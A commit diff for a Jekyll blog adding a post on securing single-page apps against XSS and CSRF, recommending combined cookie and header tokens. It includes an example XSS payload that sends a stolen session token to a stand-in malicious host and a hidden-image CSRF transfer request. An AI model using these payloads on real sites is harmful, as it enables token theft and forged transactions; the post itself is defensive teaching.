

Before and after one commit to fzaninotto/fzaninotto.github.com, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 96% size, without its empty margins (23-949 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -1,6 +1,6 @@
 markdown: redcarpet
 redcarpet:
   extensions: ["tables", "no_intra_emphasis", "fenced_code_blocks", "autolink", "strikethrough", "superscript"]
-highlighter: rouge
+highlighter: pygments
 permalink: /:year/:month/:day/:title.html
 pagination: 10
--- /dev/null
+++ b/_posts/2015-11-09-api-security.md
@@ -0,0 +1,336 @@
+---
+layout: post
+published: true
+title: "Your API-Centric Web App Is Probably Not Safe Against XSS and CSRF"
+excerpt: "As we're reinventing web applications with SPAs and frontend frameworks, we need to reinvent web application security, too."
+image: images/Chocolate_Chip_Cookies_-_kimberlykv.jpg
+tags:
+- Node.js
+- Security
+---
+
+Most of the developments I've participated in recently follow the "single-page application based on a public API with authentication" architecture. Using Angular.js or React.js, and based on a RESTful API, these applications move most of the complexity to the client side.
+
+But as we're reinventing web applications, we need to reinvent web application security, too.
+
+Is an API-centric architecture vulnerable to classic web applications attack vectors like XSS and CSRF? By default, yes it is. And securing a single page application is much less trivial than it seems. Let's see that through an example.
+
+## SPA Authentication Using An API
+
+XSS and CSRF attacks make a web surfer execute nasty tasks on websites (like sending money to a stranger or leaking their credit card number) without being aware of it. These attacks only make sense in a secure application, i.e. an application where the surfer needs to authenticate first before accessing privileged data and actions.
+
+So the heart of the problem lies around the process of authentication. How does it work in a single page app? Let's call our web surfer Bob. Bob visits https://www.bobank.com to check his bank account. This domain serves only static files (html, js, and css) rendering in Bob's browser. The JavaScript application, once started, asks Bob for his login and password. Then the application connects to https://api.bobank.com via AJAX, and sends Bob's login and password. The API application verifies if Bob is Bob (*authentication*), generates a temporary token that it sends back to Bob. Bob must send this token each time it connects to the API. The API then checks the token, recognizes Bob, verifies if BOB has access to the resource he asks for (*authorization*), and sends the resource back to Bob.
+
+<img src="/images/bobank.png" title="Bob authenticates on bobank.com" class="medium"/>
+
+Sending the token is much safer than sending the login and password over and over again. The benefit of this approach is clear.
+
+## AJAX With Remote API... and CORS
+
+How do Single Page Applications implement this exchange? To post the login and password to the `/authenticate` route in a SPA, you must use AJAX. Whether you use [`fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API), [Restangular](https://github.com/mgonto/restangular), [Restful.js](https://github.com/marmelab/restful.js), or plain XmlHttpRequest, the implementation is mostly the same.
+
+```js
+/**
+ * @return {Promise}
+ */
+function authenticate(login, password) {
+    return fetch('https://api.bobank.com/', {
+        method: 'POST',
+        body: JSON.stringify({
+            login: login,
+            password: password,
+        }),
+        headers: {
+            'Content-Type': 'application/json; charset=utf-8',
+            'Accept': 'application/json',
+        }
+    }).then(function(response) {
+        return response.json();
+    })
+}
+```
+
+Most of the time, the remote API is served from another domain than the static files (often hosted on a CDN). So this AJAX request is effectively a cross-domain AJAX request, which is prevented by browser security rules (the [same-origin policy](https://en.wikipedia.org/wiki/Same-origin_policy)) by default. To circumvent these rules, the remote API must specify that it accepts cross-origin AJAX calls, using the CORS rules. That means that the remote API must send the following `Access-Control-Allow-` headers in response to the `POST /authenticate` call:
+
+```
+HTTP/1.1 200 OK
+Content-Type: application/json; charset=utf-8
+Access-Control-Allow-Headers: Content-Type
+Access-Control-Allow-Methods: GET,POST,PUT
+Access-Control-Allow-Origin: https://www.bobank.com
+{
+    "token": "15d38683-a98f-402d-a373-4f81a5549536"
+}
+```
+
+Fine, now Bob's browser can grab an authorization token. How should Bob's browser store the token, and how should it sent it back the API?
+
+## Web Storage and Authorization Header
+
+The application running in Bob's browser is in JavaScript. The easiest storage a JavaScript developer has access to is Session Storage (or Local Storage, to keep the token persistent between tabs).
+
+```js
+authenticate(login, password)
+    .then(function(authentication) {
+        window.sessionStorage.setItem('token', authentication.token);
+    })
+    .then(getAccounts)
+    .then(function(accounts) {
+        // display the accounts page
+        // ...
+    })
+    .catch(function(error) {
+        // display error message in the login form
+        // ...
+    });
+```
+
+Most of the time, APIs require that this token is sent as a custom `Authorization` header for each call. So the call to `GET /accounts` usually looks like:
+
+```js
+/**
+ * @return {Promise}
+ */
+function getAccounts() {
+    return fetch('https://api.bobank.com/accounts', {
+        headers: {
+            'Authorization': 'Token ' + window.sessionStorage.getItem('token'),
+            'Content-Type': 'application/json; charset=utf-8',
+            'Accept': 'application/json',
+        }
+    }).then(function(response) {
+        return response.json();
+    })
+}
+```
+
+One thing to note is that this `Authorization` header must be added to the list of authorized headers in the `Access-Control-Allow-Headers` CORS header, by the API server. So API responses should look like the following:
+
+```
+HTTP/1.1 200 OK
+Content-Type:application/json; charset=utf-8
+Access-Control-Allow-Headers: Content-Type,Authorization
+Access-Control-Allow-Methods: GET,POST,PUT
+Access-Control-Allow-Origin: https://www.bobank.com
+[
+  { id: 456346436, ... }
+]
+```
+
+This approach works for the `GET /accounts`, and all subsequent calls to the API. But it has one major drawback: it is vulnerable to an XSS attack.
+
+## Cross-Site Scripting (XSS)
+
+Every script running on the same domain as the single page application has access to the session storage. Every script, and this includes possible malicious script inserted by an attacker. For instance, an attacker could enter the following value in a comment form:
+
+```js
+<script>
+var token = window.sessionStorage.getItem('token');
+var img=document.createElement("img");
+img.setAttribute('src', 'http://my.malicious.website/?stolenToken=' + token);
+document.body.appendChild(img);
+</script>
+```
+
+If the application script outputs this value to HTML directly, the attacker will gather all the customer tokens. This is called a [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attack, or XSS.
+
+To be safe from XSS attacks, the application script (whether client-side or server-side) must always [escape user input](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) before writing it into HTML (e.g. transforming `<` into `&lt;`, `>` into `&gt;`, etc.). If you use a framework like Angular.js, XSS escaping is on by default. If you use React.js, you never manipulate the DOM, so your app is secured against XSS attacks, too.
+
+But in modern web applications, developers usually rely on many third-party scripts that they can't control. Are you sure that this fancy animation library that you grabbed from bower always escapes `<` and `>` properly? And this CDN serving A/B testing code, hasn't it been compromised lately? Even if you don't use external JS libraries, maybe a simple bug in your browser can create XSS vulnerability (a.k.a [Universal XSS](http://www.zdnet.com/article/severe-xss-flaw-in-fully-patched-microsoft-internet-explorer-discovered/)).
+
+The bottomline is: session storage (and local storage) isn't safe. Any serious penetretion test marks usage of web storage for authentication token as a serious vulnerability. Many banking and insurance organizations forbid web storage for this reason.
+
+## Session Cookie Storage
+
+The browser offers a storage that can't be read by JavaScript: `HttpOnly` cookies. Cookies sent that way are automatically sent by the browser, so it's a good way to identify a requester without risking XSS attacks.
+
+How do you deal with cookies in cross-domain AJAX? It's a little more complicated than you'd think.
+
+First, the response to the `POST /authenticate` call should return the token in the `Set-Cookie` header:
+
+```
+HTTP/1.1 200 OK
+Content-Type: application/json; charset=utf-8
+Access-Control-Allow-Headers: Content-Type
+Access-Control-Allow-Methods: GET,POST,PUT
+Access-Control-Allow-Origin: https://www.bobank.com
+Set-Cookie: session=15d38683-a98f-402d-a373-4f81a5549536; path=/; expires=Fri, 06 Nov 2015 08:30:15 GMT; httponly
+```
+
+See the `httpOnly` setting in the `session` cookie? That's what makes it invisible to client-side JavaScript.
+
+By default, subsequent AJAX calls to the API *do not* include this session cookie yet. This is because cross-domain AJAX forbids it by default. To enable the sending of credentials, AJAX calls must be done with `credentials` set to `include`:
+
+```js
+authenticate(login, password)
+    .then(getAccounts)
+    .then(function(accounts) {
+        // display the accounts page
+        // ...
+    })
+    .catch(function(error) {
+        // display error message in the login form
+        // ...
+    });
+
+/**
+ * @return {Promise}
+ */
+function getAccounts() {
+    return fetch('https://api.bobank.com/accounts', {
+        headers: {
+            'Content-Type': 'application/json; charset=utf-8',
+            'Accept': 'application/json',
+        },
+        credentials: 'include' // <= that's what changed
+    }).then(function(response) {
+        return response.json();
+    })
+}
+```
+
+If you don't use `fetch` but `XmlHttpRequest`, the setting is called `withCredentials`. It's only available in XmlHttpRequest2, so make sure you pass `true` as third argument of the XHR constructor.
+
+```js
+function getAccounts() {
+    return new Promise(function(fulfill, reject) {
+        var req = new XMLHttpRequest();
+        req.open('GET', 'https://api.bobank.com/accounts', true); // force XMLHttpRequest2
+        req.setRequestHeader('Content-Type', 'application/json; charset=utf-8');
+        req.setRequestHeader('Accept', 'application/json');
+        req.withCredentials = true; // pass along cookies
+        req.onload = function()  {
+            // store token and redirect
+            let json;
+            try {
+                json = JSON.parse(req.responseText);
+            } catch (error) {
+                return reject(error);
+            }
+            resolve(json);
+        };
+        req.onerror = reject;
+    });
+}
+```
+
+Almost there! In order for the browser to accept to send XmlHtpRequests with credentials, the API must include the `Access-Control-Allow-Credentials` header in every response. For example, the server should respond to `GET /accounts` as follows:
+
+```
+HTTP/1.1 200 OK
+Content-Type: application/json; charset=utf-8
+Access-Control-Allow-Credentials: true
+Access-Control-Allow-Headers: Content-Type,Authorization
+Access-Control-Allow-Methods: GET,POST,PUT
+Access-Control-Allow-Origin: https://www.bobank.com
+Set-Cookie: session=15d38683-a98f-402d-a373-4f81a5549536; path=/; expires=Fri, 06 Nov 2015 09:30:15 GMT; httponly
+[
+  { id: 456346436, ... }
+]
+```
+
+Note that the cookie expiration date should be updated for each call, to avoid disconnection even after web activity.
+
+This approach works for the `GET /accounts`, and all subsequent calls to the API. Authentication tokens are broadly used in APIs. There are even standard ways to represent them (like [JSON Web Token](http://jwt.io/), or JWT). But again, it has one major drawback: they are vulnerable to CSRF attacks.
+
+## Cross-Site Request Forgery (CSRF)
+
+[Cross-Site request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) attacks work across two sites: a malicious / infected site (e.g. xxxtorrentz.com), and the site/API where the user has credentials (api.bobank.com). When Bob visits the infected site, he may not notice the following image:
+
+```html
+<img src="https://api.bobank.com/transfer?amout=10000?to=34523454561" style="width:0;height:0" />
+```
+
+If Bob authenticated to api.bobank.com in the past, every request he makes to the same address contains the session cookie. So the malicious call for a money transfer will pass authentication.
+
+CSRF isn't limited to GET routes. With JavaScript, it's very easy to submit an invisible form with a POST method. And don't get me started on iframes!
+
+The classic protection against CSRF attacks is to use... a token. Yes, you read that right. The transposition of the [Synchronizer Token Pattern](https://www.owasp.org/index.php/CSRF_Prevention_Cheat_Sheet#General_Recommendation:_Synchronizer_Token_Pattern) to API-first applications is to have the API send a token as a response to the `POST /authenticate` request, store this token in session storage, and send it as a header with each subsequent request to the API. Exactly what we did two sections above!
+
+## The Secure Way
+
+Let me summarize the pros and cons of each approach:
+
+<table class="table"><thead>
+<tr>
+<th>Approach</th>
+<th>Vulnerable to</th>
+<th>Immune to</th>
+</tr>
+</thead><tbody>
+<tr>
+<td>Token, Web Storage and Authorization Header</td>
+<td>XSS</td>
+<td>CSRF</td>
+</tr>
+<tr>
+<td>Session cookie</td>
+<td>CSRF</td>
+<td>XSS</td>
+</tr>
+</tbody></table>
+
+Each approach taken individually is vulnerable. The solution? *Use them both*. Combined, a session token and a session cookie are immune to both XSS and CSRF.
+
+So the AJAX call to `POST /authenticate` should expect both a session cookie header, and a token in the response body. They must be different, otherwise an attacker getting access to either one of them could bypass both authentications.
+
+```
+HTTP/1.1 200 OK
+Content-Type: application/json; charset=utf-8
+Access-Control-Allow-Credentials: true
+Access-Control-Allow-Headers: Content-Type,Authorization
+Access-Control-Allow-Methods: GET,POST,PUT
+Access-Control-Allow-Origin: https://www.bobank.com
+Set-Cookie: session=ee506a61-d51a-4145-83fd-47f63cff8b2f; path=/; expires=Fri, 06 Nov 2015 08:30:15 GMT; httponly
+{
+    "token": "15d38683-a98f-402d-a373-4f81a5549536"
+}
+```
+
+The JavaScript application must then store the JavaScript token, and pass it in the Authorization header. The browser takes care of passing along the cookie, too - provided all AJAX requests are `withCredentials`:
+
+```js
+authenticate(login, password)
+    .then(function(authentication) {
+        window.sessionStorage.setItem('token', authentication.token); // store token
+    })
+    .then(getAccounts)
+    .then(function(accounts) {
+        // display the accounts page
+        // ...
+    })
+    .catch(function(error) {
+        // display error message in the login form
+        // ...
+    });
+
+/**
+ * @return {Promise}
+ */
+function getAccounts() {
+    return fetch('https://api.bobank.com/accounts', {
+        headers: {
+            'Authorization': 'Token ' + window.sessionStorage.getItem('token'), // <= include token
+            'Content-Type': 'application/json; charset=utf-8',
+            'Accept': 'application/json',
+        },
+        credentials: 'include' // <= include session cookie
+    }).then(function(response) {
+        return response.json();
+    })
+}
+```
+
+There are many variants of this double edge protection. For instance, the CSRF token can be provided by a cookie, too - but a cookie readable via JavaScript (not `HttpOnly`). That's how the [Angular.js CSRF protection](https://docs.angularjs.org/api/ng/service/$http#cross-site-request-forgery-xsrf-protection) works.
+
+## Internet Exporer 9
+
+If you implemented the cookie+token storage as described above, you can be sure of one thing: *it will not work* on IE9. And probably not on IE10, either. Internet Explorer's implementation of XMLHttpRequest lacks support for custom headers, and for the "withCredentials" support. Microsoft's alternative cross-domain AJAX utility for IE9, called [`XDomainRequest`](https://msdn.microsoft.com/en-us/library/cc288060(v=vs.85).aspx), is a joke. It's so broken that it's been abandoned since.
+
+You don't have to support IE9 and IE10? You're lucky. Otherwise, all is not lost. There is no problem that a good iframe can solve. That's the approach of a little library called [xdomain](https://github.com/jpillora/xdomain), a life-saver for API-centric web applications with compulsory legacy browser support. Tested, and approved!
+
+## Conclusion
+
+Just like regular HTML pages served by a web server, single page apps must be protected both by cookies and a CSRF token. So there is nothing new under the sun? Except that all this communication now takes place in AJAX, and must comply with CORS guidelines.
+
+Also, if tokens aren't enough, why do so many public APIs only provide token-based authentication? Probably because the primary use case for these APIs isn't to be consumed directly by a JavaScript client in a web browser... Or because these APIs trust you to never open any XSS vulnerability in your apps and leak your tokens. Are you sure your apps are so secure?
````
Also changed, not shown: images/Chocolate_Chip_Cookies_-_kimberlykv.jpg (added), images/bobank.png (added).
